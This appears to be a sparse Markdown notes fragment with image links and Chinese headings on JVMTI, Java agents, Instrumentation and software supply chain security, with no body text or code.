

### JVMTI



JVMTI的功能

JavaAgent与JVMTI



Instrumentation的作用


Instrumentation的原理


# 软件供应链安全